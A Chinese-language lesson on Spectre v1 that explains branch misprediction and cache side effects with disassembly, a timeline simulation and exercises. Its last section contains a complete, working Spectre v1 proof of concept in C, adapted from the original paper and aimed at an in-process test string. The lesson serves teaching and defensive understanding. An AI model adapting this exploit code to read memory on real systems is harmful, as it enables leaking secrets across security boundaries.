

一个函数只允许读表的前四个元素。传入下标 5，函数返回 0。在确定应该返回 0 以前，处理器可能已向缓存请求过第六个元素所在的行。Spectre v1 涉及的正是这段窗口。要看它如何出现，先找出边界检查依赖哪个值，再看错误路径上的加载能否独立生成地址。

回想[条件分支的方向预测](./microarch-03a-fetch-prediction.md#predict-pht)与[取指地址预测](./microarch-03a-fetch-prediction.md#predict-fetch)。前端可以在比较结果就绪之前，先把预测路径上的指令送入流水线。本节选用一段很短的读取函数，把这件事落实到具体指令。

[[toc]]

## 源码里的边界对应哪条分支

```c
#include <stddef.h>

unsigned read_sample(const unsigned *samples, const unsigned *visible, size_t index) {
    if (index >= *visible)
        return 0;
    return samples[index];
}
```

题设中，`samples` 指向八个 32 位无符号整数，内容依次为 11、22、33、44、55、66、77、88。变量 `*visible` 的值为 4，在一次调用期间不变。前四项是函数允许返回的数据，后四项只用来说明逻辑边界，所有元素都放在同一个实际数组里。

下面是这段源码的实际反汇编。GCC 15.2.0，目标 `x86_64-w64-mingw32`，选项 `-O2 -c`，用 `objdump -d -Mintel` 读取对象文件。左边是指令相对于函数开头的十六进制偏移。Windows x64 调用约定把前三个参数分别放在 `rcx`、`rdx`、`r8`。

```text
00  xor eax, eax
02  mov edx, DWORD PTR [rdx]
04  cmp r8, rdx
07  jae 0x0d
09  mov eax, DWORD PTR [rcx+r8*4]
0d  ret
```

第一条把返回值预先置为 0。偏移 `02` 的指令从 `rdx` 指向的位置读出 4，写入 `edx` 时把 `rdx` 的高 32 位清零。偏移 `04` 的比较据此设置标志位。接着 `jae` 按**无符号**比较，在 `index >= 4` 时跳到 `0d`。因此，这条机器指令预测为**跳转**表示预计会拒绝下标，预测为**不跳转**表示预计会执行 `09` 的数据加载。

具体看 `CF`，也就是这里用于表示无符号减法借位的标志。下标为 2 时，`cmp` 计算 `2 - 4` 所对应的标志，`CF = 1`，所以 `jae` 不跳。偏移 `09` 从基址加 8 的位置取出 33，覆盖 `eax` 里的 0。下标为 5 时，`cmp` 比较 `5 - 4`，`CF = 0`，所以 `jae` 直接去 `0d`。在这条路径上，`ret` 返回调用者，调用者从 `eax` 取得预置的 0。

| 输入 | 真实分支方向 | 指令 `09` 在程序语义上是否执行 | 返回值 |
| --- | --- | --- | --- |
| `index = 2` | 不跳转 | 读取 `samples[2]` | 33 |
| `index = 5` | 跳转 | 跳过这条指令 | 0 |

::: details 完整的 C 程序
把整段保存为 `read_sample.c`，在 Windows 上用 `gcc -O0 read_sample.c -o read_sample.exe` 编译，再运行 `.\read_sample.exe`。程序打印下标 2 和 5 的返回值并核对它们。要查看上面的函数反汇编，用 `gcc -O2 -c read_sample.c -o read_sample.o` 编译对象文件，再用 `objdump -d -Mintel read_sample.o` 查看 `read_sample`。

```c
#include <assert.h>
#include <stddef.h>
#include <stdio.h>

unsigned read_sample(const unsigned *samples, const unsigned *visible, size_t index) {
    if (index >= *visible)
        return 0;
    return samples[index];
}

int main(void) {
    const unsigned samples[] = {11, 22, 33, 44, 55, 66, 77, 88};
    const unsigned visible = 4;

    unsigned accepted = read_sample(samples, &visible, 2);
    unsigned rejected = read_sample(samples, &visible, 5);
    assert(accepted == 33);
    assert(rejected == 0);
    printf("index 2 -> %u\n", accepted);
    printf("index 5 -> %u\n", rejected);
    return 0;
}
```

两次调用只改变第三个参数。打印值和断言核对的是函数执行结束后的架构结果。接下来把推测执行中的事件另放进一个模型。
:::

## 比较还在等待，加载为什么能先发出

注意 `09` 的内存地址只用到了 `rcx` 和 `r8`。一旦两个参数就绪，地址生成不需要先读到 `*visible`。制约它的是前面的控制流。处理器推测走哪条路径后，就可以尝试发射这条加载。比较仍然要按真实数据完成，随后才知道这条路径是否应该成立。

用 `index = 5` 走一次。假定预测器给出“不跳转”，且读取边界值很慢。为便于计算，令数组首地址为 `0x2030`，缓存行长为 64 字节，下表沿用同一页内的地址表示。下标 5 对应地址 `0x2030 + 5 × 4 = 0x2044`，落在从 `0x2040` 开始的行。前四项位于从 `0x2000` 开始的行。这些地址和先后顺序是题设。反汇编给出的是指令与依赖关系。

<figure class="lesson-figure" style="max-width: 600px">
  <a href="/microarch/spectre-v1-execution.svg" aria-label="放大查看分支恢复与缓存请求图">
  
  </a>
  <figcaption>图 1　一次错误预测中的两条依赖。左侧的分支要等上界，右侧的加载地址只用两个已经就绪的寄存器。分支恢复改写取指方向，缓存端另有一笔已经发出的请求。图按本节题设绘制。</figcaption>
</figure>

| 次序 | 边界检查一侧 | 预测路径一侧 |
| --- | --- | --- |
| 1 | 读取 `*visible`，比较尚未就绪 | 前端预测不跳转，把 `09` 的加载送入后端 |
| 2 | `jae` 仍在等比较 | 加载所需的两个参数齐备，可以向缓存请求 `0x2044` |
| 3 | `*visible` 返回 4，比较确认 5 大于等于 4 | 前端改到 `0d`，丢弃错误路径加载的结果 |
| 4 | 正确路径执行返回 | 已发出的请求是否完成、是否改变了缓存，取决于缓存收到请求时的状态与实现 |

假定 `0x2040` 最初没有驻留，且第 2 步的读取在第 3 步之前已成功填充。缓存里可能已经多出这一行，错误路径的 `eax` 也可能暂时拿到数组元素 66。分支恢复时，处理器丢弃这个较年轻的寄存器版本，让正确路径继续使用先前的 0。行填充由缓存控制器处理，恢复寄存器并不自动撤销这项填充。如果请求还在途，应按[未命中与 MSHR](./microarch-01a-mshr.md)分析缓存端当时的状态。

这个例子中的缓存地址由下标决定。保持下标为 5，把元素 66 换成 17，读取的仍是 `0x2044`。因此这里的行填充只能说明读取路径可能发生过，无法从这一条行判断里面是 66 还是 17。要得到泄露结论，还需要证实这份值能引起观察者可区分的后续行为。

## 让同一条加载经过三个时序

把下面的 C 程序保存为 `branch_window.c`，用 `gcc -std=c11 -O2 -Wall -Wextra branch_window.c -o branch_window` 编译后运行。三次都用下标 5，并设预测为不跳转。`ISSUE_AT` 是加载发出请求的时点，`FILL_AT` 是本例设定的数据填充时点，`resolve_at` 是偏移 `07` 确认真实方向的时点。

```c
#include <assert.h>
#include <stdbool.h>
#include <stdio.h>

enum { BASE = 0x2030, INDEX = 5, VISIBLE = 4, LINE = 64,
       ISSUE_AT = 2, FILL_AT = 4 };

struct result {
    unsigned returned;
    unsigned request;
    unsigned cache_line;
    bool issued;
    bool filled;
};

static struct result trace(unsigned resolve_at)
{
    const unsigned samples[] = {11, 22, 33, 44, 55, 66, 77, 88};
    const unsigned address = BASE + INDEX * sizeof(samples[0]);
    struct result r = {0, 0, 0, false, false};

    if (INDEX < VISIBLE)
        r.returned = samples[INDEX];
    if (resolve_at < ISSUE_AT)
        return r;

    r.issued = true;
    r.request = address;
    if (FILL_AT < resolve_at) {
        r.filled = true;
        r.cache_line = address - address % LINE;
    }
    return r;
}

static void show(unsigned time, struct result r, struct result expected)
{
    assert(r.returned == expected.returned);
    assert(r.issued == expected.issued);
    assert(r.filled == expected.filled);
    if (r.issued)
        assert(r.request == expected.request);
    if (r.filled)
        assert(r.cache_line == expected.cache_line);

    printf("resolve=%u: ret=%u, request=", time, r.returned);
    if (r.issued) printf("0x%x", r.request);
    else printf("-");
    printf(", filled=");
    if (r.filled) printf("0x%x", r.cache_line);
    else printf("-");
    putchar('\n');
}

int main(void)
{
    show(1, trace(1), (struct result){0, 0, 0, false, false});
    show(3, trace(3), (struct result){0, 0x2044, 0, true, false});
    show(5, trace(5), (struct result){0, 0x2044, 0x2040, true, true});
    return 0;
}
```

```text
resolve=1: ret=0, request=-, filled=-
resolve=3: ret=0, request=0x2044, filled=-
resolve=5: ret=0, request=0x2044, filled=0x2040
```

三行返回值都是 0。第一行在请求发出前已确认方向。第二行发出了请求，但在改道时尚未填充。第三行在改道前已经填充缓存行。该程序复算的是明确给定的事件次序，不模拟真实处理器的分支预测器和缓存。

## 原论文 PoC 怎样把错误预测变成字节读出

前面的 C 程序复算的是一个已经给定的执行时间线；它没有分支预测器、缓存或计时器。原论文附录 C 的 Listing 5 则把一次读取的完整闭环连在一起：训练分支、制造一次越界调用、让越界读到的字节选择探测位置、逐一计时、累计票数，再输出最可能的字节。

读出路径里有两个作用不同的数组。`array1` 是被测函数读取的数组，开头 16 字节是边界检查允许访问的范围。`array2` 是探测数组，256 个候选值各有一个偏移位置。若读到的字节是 `b`，瞬态执行就访问 `array2[b × 512]`；之后程序测量 256 个位置，找出哪一处已在缓存中。

下面的完整 C 版本保留 Listing 5 的训练、编码、计时和评分算法，把测试字符串明确放到 `array1` 已分配空间内的偏移 64。逻辑边界仍是 16，因此偏移 64 会被检查拒绝；把字节放在同一分配对象中则避免依赖全局变量的链接布局。它只把程序自己的测试字符串作为目标。计时阈值 80 是论文示例采用的数值，不是通用常量。

::: details 完整 C PoC：按论文 Listing 5 读出本进程测试字符串
保存为 `spectre_v1_poc.c`。GCC/Clang x86-64 可用 `gcc -O2 -Wall -Wextra -march=haswell spectre_v1_poc.c -o spectre_v1_poc` 编译。程序没有读取外部地址参数；`main` 只把固定的教学字符串放进 `array1` 的逻辑边界之外，然后逐字节调用 `read_memory_byte`。

```c
#include <stdint.h>
#include <stdio.h>
#include <string.h>
#include <x86intrin.h>

enum {
    ARRAY1_SIZE = 16,
    ARRAY1_STORAGE = 160,
    ARRAY2_STRIDE = 512,
    CACHE_HIT_THRESHOLD = 80,
    SECRET_OFFSET = 64
};

unsigned int array1_size = ARRAY1_SIZE;
static uint8_t array1[ARRAY1_STORAGE] = {
    1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16
};
static uint8_t array2[256 * ARRAY2_STRIDE];
static const uint8_t test_secret[] = "The Magic Words are Squeamish Ossifrage.";
static volatile uint8_t temp;

static void victim_function(size_t x)
{
    if (x < array1_size)
        temp &= array2[array1[x] * ARRAY2_STRIDE];
}

static void read_memory_byte(size_t malicious_x,
                             uint8_t value[2], int score[2])
{
    static int results[256];
    int tries, i, j, k, mix_i;
    unsigned int junk = 0;
    size_t training_x, x;
    uint64_t time1, time2;
    volatile uint8_t *addr;

    memset(results, 0, sizeof(results));

    for (tries = 999; tries > 0; --tries) {
        for (i = 0; i < 256; ++i)
            _mm_clflush(&array2[i * ARRAY2_STRIDE]);

        training_x = (size_t)(tries % array1_size);
        for (j = 29; j >= 0; --j) {
            _mm_clflush(&array1_size);
            for (volatile int z = 0; z < 100; ++z) {
            }

            /* 每 6 次中 1 次使用恶意索引，另外 5 次用于训练。 */
            size_t mask = (size_t)(((j % 6) - 1) & ~0xFFFF);
            mask |= mask >> 16;
            x = training_x ^ (mask & (malicious_x ^ training_x));
            victim_function(x);
        }

        /* 乘数 167 与 256 互素，所以这是 0..255 的一个置换。 */
        for (i = 0; i < 256; ++i) {
            mix_i = ((i * 167) + 13) & 255;
            addr = &array2[mix_i * ARRAY2_STRIDE];
            time1 = __rdtscp(&junk);
            junk ^= *addr;
            time2 = __rdtscp(&junk) - time1;

            /* 训练调用也会触碰一个探测位置，计分时排除它。 */
            if (time2 <= CACHE_HIT_THRESHOLD &&
                mix_i != array1[tries % array1_size])
                ++results[mix_i];
        }

        j = k = -1;
        for (i = 0; i < 256; ++i) {
            if (j < 0 || results[i] >= results[j]) {
                k = j;
                j = i;
            } else if (k < 0 || results[i] >= results[k]) {
                k = i;
            }
        }

        if (results[j] >= 2 * results[k] + 5 ||
            (results[j] == 2 && results[k] == 0))
            break;
    }

    results[0] ^= (int)junk;
    value[0] = (uint8_t)j;
    score[0] = results[j];
    value[1] = (uint8_t)k;
    score[1] = results[k];
}

int main(void)
{
    uint8_t value[2];
    int score[2];
    const size_t secret_length = sizeof(test_secret) - 1;

    if (SECRET_OFFSET + sizeof(test_secret) > sizeof(array1)) {
        fputs("test secret does not fit in array1\n", stderr);
        return 1;
    }

    memcpy(array1 + SECRET_OFFSET, test_secret, sizeof(test_secret));
    memset(array2, 1, sizeof(array2));

    printf("Reading the in-process test string (%zu bytes):\n", secret_length);
    for (size_t i = 0; i < secret_length; ++i) {
        read_memory_byte(SECRET_OFFSET + i, value, score);
        printf("%s 0x%02x '%c' score=%d",
               score[0] >= 2 * score[1] ? "Success:" : "Unclear:",
               value[0],
               value[0] >= 32 && value[0] < 127 ? value[0] : '?',
               score[0]);
        if (score[1] > 0)
            printf(" (runner-up 0x%02x, score=%d)", value[1], score[1]);
        putchar('\n');
    }
    return 0;
}
```

这段程序可按以下顺序阅读。首先，`victim_function` 只有一条边界分支。训练时传入 0 至 15；目标读取时传入 64 加上字节序号。无论哪种调用，架构条件都是同一个：`x < 16`。训练让分支预测器多次看到“成立”，目标调用却应当“不成立”。

`array1_size` 在这里保留为具有外部链接的全局对象，与论文示例的定义方式一致。每次训练前，代码对它执行 `CLFLUSH`，希望边界值需要较长时间才能返回，让比较成为分支的等待条件。若把它改成编译器能确定的内部常量，编译器可能直接把比较中的 16 写进指令，刷新这个变量就不再延迟边界检查。读这类程序时，必须连同编译选项和反汇编一起确认：源码里写了刷新，不等于机器码里仍有一笔被刷慢的边界加载。

其次，分支条件依赖 `array1_size`，而数据地址 `&array1[x]` 只依赖 `x` 和 `array1` 的基址。若处理器在条件尚未确认时预测成立，加载单元可能先发出第一笔加载。读到字符 `b` 后，后续加载访问 `array2[b × 512]`。若分支随后确认 `64 + i >= 16`，处理器撤销错误路径的寄存器结果；这不会自动撤销此前已经完成的缓存填充。

再次，扫描顺序 `((i × 167) + 13) mod 256` 打乱顺序。因为 167 与 256 互素，256 个候选仍会各访问一次。顺序扫描会呈现固定步长，可能让预取和缓存替换规律干扰计时。512 字节间距在 64 字节缓存行的题设下让候选至少相隔 8 行；它并不等于 4 KiB 页间距。`RDTSCP` 在加载前后取时间戳，命中阈值内的候选加一票。

最后，训练时合法的 `array1[tries % array1_size]` 也可能令它对应的探测行变热，所以评分时排除这个值。程序找到票数最高和第二高的候选；只有最高分明显领先时才输出 `Success`，否则标为 `Unclear`。下一字节从同一测试字符串的下一个偏移重新训练、清空和扫描。读完整串需要重复这套流程，而不是从一次误预测直接得到整段内容。

论文报告，未优化实现曾在 Intel Core i7-4650U 上达到约 10 KiB/s，错误率低于 0.01%。这是论文指定平台与实验条件下的结果。上面保留了论文的阈值和评分形式，但把目标固定为程序内数据；其他编译器、计时条件或处理器的命中阈值和输出置信度需要按测量重新解释。`Success` 也只是这次候选评分的标签，判断读出是否可靠仍要与已知测试字符串逐字节核对。
:::

| PoC 对象 | 在代码中的位置 | 读者应能推导的结果 |
| --- | --- | --- |
| 合法边界 | `array1_size = 16` 与 `if (x < array1_size)` | `x = 64 + i` 在架构路径上必定被拒绝 |
| 分支训练 | `training_x` 与 30 次交替调用 | 每组 6 次调用含 5 次合法训练、1 次目标索引 |
| 越界字节 | `array1[SECRET_OFFSET + i]` | 读到的值 `b` 决定第二次加载的地址 |
| 缓存编码 | `array2[b * 512]` | 字节 `b` 对应第 `b` 个探测位置 |
| 通道恢复 | `RDTSCP`、阈值和 `results[256]` | 快速候选累积为票数最高项 |

完整代码中的两次加载不能混为一谈。`array1[x]` 是越过软件边界取出字节的加载；`array2[b × 512]` 是把这个字节编码进缓存状态的加载。随后计时扫描才把编码状态恢复成架构可见的数字。代码、题设和输出在这里闭合，读者可以逐项核对每一字节如何从输入偏移到达输出候选。

::: details 练习：两次加载分别传递什么
训练索引为 7，目标字符串字节相对 `array1` 的偏移为 200。分支预测通过时第一次加载读哪个位置？若读到 84，编码加载访问探测数组哪个偏移？

训练调用传 7，攻击调用传 200。第一次加载读 `array1[200]`。若值为 84，编码加载读 `array2[84 × 512]`，把这一行的命中状态留给稍后的扫描。真实边界检查仍会拒绝 200。若扫描时另一个候选命中次数更高，应继续增加测量轮数或检查噪声，不能仅凭一次扫描断定读出 84。
:::

如果一份记录只有「分支错预测数增加、L1 填充数增加、最后返回 0」，可以先用上述时间线判断它能说明什么。最后一项符合正常恢复。前两项是计数，还需要确认计到哪条分支、哪次访问和哪个请求来源。查读器件计数时，可接着看[计时和计数器的归因例题](./microarch-04a-measurement.md)。

## 参考文献

- [Spectre 原论文](https://spectreattack.com/spectre.pdf)
- [原论文 Listing 5 的可读文本](https://github.com/crozone/SpectrePoC/blob/master/spectre.c)
- [Microsoft 的 x64 参数约定](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170#parameter-passing)
- [Intel 对 Bounds Check Bypass 的说明](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/technical-documentation/analysis-speculative-execution-side-channels.html#variant-1-bounds-check-bypass)
- [Intel 推测执行与恢复说明](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/technical-documentation/hardware-behavior-related-to-speculative-execution.html)
- [Intel 指令集手册，CMP、Jcc 与通用寄存器写入规则](https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html)

<nav class="article-nav" aria-label="系列文章导航">

[<span class="article-nav-text"><small>上一篇</small><strong>同核多线程怎样安排任务</strong></span>](./microarch-06d-core-scheduling.md){.article-nav-card .article-nav-prev rel=prev}

[<span class="article-nav-text"><small>下一篇</small><strong>Meltdown 中的越权加载如何影响后续指令</strong></span>](./microarch-04e-meltdown.md){.article-nav-card .article-nav-next rel=next}

</nav>
